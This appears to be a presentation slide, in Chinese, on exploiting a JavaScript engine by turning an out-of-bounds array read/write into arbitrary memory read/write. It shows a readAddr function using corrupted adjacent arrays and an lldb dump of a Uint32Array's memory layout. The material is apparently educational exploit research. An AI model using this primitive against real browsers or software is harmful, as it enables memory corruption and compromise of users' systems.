

01.把越界读写转化为任意地址读写漏洞（AAW/AAR）

function readAddr(lowaddr){
    attempts[750000][4]=lowaddr;
    var lowval=attempts[750001][0];
    return lowval;
}

		(lldb) x -f p 0x18cf53880(Uint32Array)结构，大小0x20字节
		0x18cf53880: 0x00082a00000001ee 0x000000018cf4da38 0x000000018cf538a0 0xffff000031313131
		0x18cf538a0: 0x00082a00000001ee 0x000000018cf4da48 0x0000000125887900 0x0000000200000